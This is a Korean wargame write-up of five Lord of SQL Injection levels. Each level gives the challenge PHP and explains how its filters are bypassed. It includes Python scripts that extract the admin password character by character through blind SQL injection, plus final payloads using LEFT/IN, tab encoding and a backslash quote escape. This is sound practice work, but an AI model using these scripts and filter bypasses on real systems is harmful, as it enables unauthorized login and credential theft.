

##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다

-----

# > Lord of Sql injection: darkknight

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

이전보다 많은 필터링이 걸려있으나 `>` 와 같은 비교 연산자가 몇 개 살아있으므로 항상 참을 만듦으로써 로그인은 가능하다.


또한 싱글쿼터 `'` 가 필터링되어 있지만 더블쿼터 `"`는 막히지 않았기에 admin으로 로그인이  가능하다.



따라서 이전 문제를 풀 듯 한글자씩 찾아가면 되겠다.

<br>


## writeup

이번 문제에서는 "no" 값을 작성해야 하는 것 외에는 이전 개념들이 모두 사용되었다.

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1

def my_request(uno):
	url = f'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?pw=1&no={uno}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		uno = f'1 or id like "admin" and pw like \"{res}'+chr(i)+'%\" --+'
		response = my_request(uno)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```


전송되는 쿼리의 주 파라미터가 달라지는 것 외에는 크게 다를 것이 없었다.

```
pw=1&no=1 or id like "admin" and pw like "0%"
```

최종적으로 이러한 쿼리를 이용해 성공한 것이다.


<br><br><br>

-----

# > Lord of Sql injection: bugbear

## 삽질

```php

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

드디어 이번에 사용하던 LIKE절이 막혀버렸다. 여전히 싱글쿼터과 비교 연산자 중 `=` 는 막혀있는 상태이다. 게다가 논리 연산자 `or`과 `and`, 그리고 공백 또한 막혀있다.

하지만 `or` 과 `and`를 대체하는 기호는 `||`와 `&&`로 알고 있고, 공백은 `%09`를 이용한 탭으로의 변환이 있다. 이제 이전 단계에서 사용한 LIKE 절만 대체할 구문을 찾으면 되겠다.


괄호도 사용이 불가능하여 써니나타스에서 얻었던 `left`, `right` 함수도 쉬워보이지 않는다. -> 라고 생각했는데 `()`가 안되는 것이지 `(123)` 이런식으로 괄호 사이에 무언가 있으면 가능하다 ㅋㅋㅅㅋㅅㅋㅅㅋㅅㅋㅅㅋㅅ

<br>

## writeup

LIKE 절을 대체하기 위해 고려해본 것은 `IN`절과 `LEFT`함수이다.


IN 절은 괄호 안에 있는 문자열과 일치할 경우에 선택한다. 


또한 and를 우회하기 위해서는 `&&` 기호가 필요한데 실제 주솟값에 `&` 기호를 사용해보면 파라미터값을 구분하는 기호로 사용되기에 위처럼 아스키코드로 대체해야 한다.

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1


def my_request(uno):
	url = f'https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?pw=1&no={uno}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res,cnt):
	for i in range(38,127):
		uno = f'1||%09id%09IN%09(\"admin\")%09%26%26%09LEFT(pw,{cnt})%09IN%09(\"{res}'+chr(i)+'\")'
		response = my_request(uno)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	cnt = 1
	while flag:
		res += find_pw(res,cnt)
		cnt += 1


if __name__ == "__main__":
	solve()	
```


`IN` 절을 이용하면서 `=` 기호와 `LIKE` 절을 대체할 수 있었고, `LEFT` 함수로 비밀번호의 제일 왼쪽부터 한자리씩 추론해나갔다.

```
pw=1&no=1||%09id%09IN%09("admin")%09%26%26%09LEFT(pw,1)%09IN%09("0")
```

이런식으로 쿼리를 보낸 셈이다.


<br><br><br>

-----

# > Lord of Sql injection: giant

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```

아니.. 문제를 보고 뇌절이 왔다.

글자수가 한자리보다 길면 안되는데 공백을 나타내야만 한다.

<br>

## writeup

구글링은 위대하는 점을 또 깨우쳤다.

공백을 대체하기 위한 기호는 다음과 같다.

<div class="code-example">
%09 : tab<br>
%0a : line feed<br>
%0b : vertical tab<br>
%0c : form feed<br>
%0d : carriage return<br>
+ : space와 동일<br>
+ /**/ : 주석, 내부에 임의의 문자열 삽입 가능<br>
</div>

나는 `%0b` 를 이용하여 풀었다.

```
shit=%0b
```


<br><br><br>

-----

# > Lord of Sql injection: assassin

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

싱글쿼터 없이 비밀번호 유추만으로 id 값을 "admin" 으로 맞추어야 하는 듯하다. 이전 문제부터 와일드카드 중 `%` 기호를 이용해왔기에 응용해보자.


갑자기 쉬워졌다고 생각하여 기존 코드를 조금 수정하여 시도하였는데 불가능하였다.

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1


def my_request(upw):
	url = f'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'{res}'+chr(i)+'%'
		response = my_request(upw)
		if i == 42:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```

어째서인지 찾아내지를 못했고 미궁속으로 빠진 나는 롤을 한판 했다.

<br>

## writeup

정신이 말끔해지니 드는 생각이 두 계정의 비밀번호의 시작이 같으면 해당 쿼리 결과값 상단에는 무엇이 노출되느냐였다. 앞선 문제들을 통해 no=1이 guest였고, no=2가 admin이였던 점을 감안해서 생각해보니 당연히 "Hello admin"을 바라는 조건문으로는 찾을 수가 없었다.


이전 코드의 조건이 "Hello guest"일 때 얻은 guest 비밀번호를 가지고 코드를 약간 변형하기로 하였다.

```python
import requests
cookie = {'PHPSESSID':''}
flag = 1


def my_request(upw):
	url = f'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(46,127):
		upw = f'{res}'+chr(i)+'%'
		response = my_request(upw)
		if "Hello guest" in response.text:
			print("I got: ",chr(i))
			return chr(i)

		elif "Hello admin" in response.text:
			print("I got admin pw: ",chr(i))
			return chr(i)
			

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```


다행이도 찾을 수 있었는데 혹여 아스키코드 상으로 admin의 비밀번호가 guest보다 뒤쳐져있을 경우에는 수정이 좀 필요할 듯하다. 그래도 찾아서 다행이다.


<br><br><br>

-----

# > Lord of Sql injection: succubus

## 삽질
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/',$_GET[id])) exit("HeHe");
  if(preg_match('/\'/',$_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

result의 결과가 존재하기만 하면 풀 수 있는 대신에 싱글쿼터가 필터링 되어 있어서 쿼리문에 파라미터값 전달 이외가 불가능하다. 또한 LIKE가 아니여서 와일드카드를 사용할 수 없기에 땡으로 맞춰야할 느낌이다.


<br>

## writeup

단순하게 생각하면 막막하게 풀어야할 수도 있었지만, 이럴리 없다는 생각으로 쳐다보면 앞서 스크립트를 짜던 부분에서 힌트를 얻을 수 있었다. 파이썬에서도 그렇듯 자연스럽게 쓰고 있던 이스케이프 문자를 생각해보자.

sql에서도 특정한 기호들을 문자로 인식 시키기 위해서는 이스케이프 문자를 사용한다. 게다가 파이썬과 동일하게 `\\` 기호를 이용하기에 싱글쿼터를 이용할 수 없다는 상황을 타파할 수 있겠다.

```
id=\&pw=or 1--+
```

이렇게 전송함으로써 아래 사진의 빨간 밑줄 부분은 문자로 인식되고 남은 자리를 참으로 만듦으로써 통과했다.


<br><br><br>


이렇게 끝이 났다~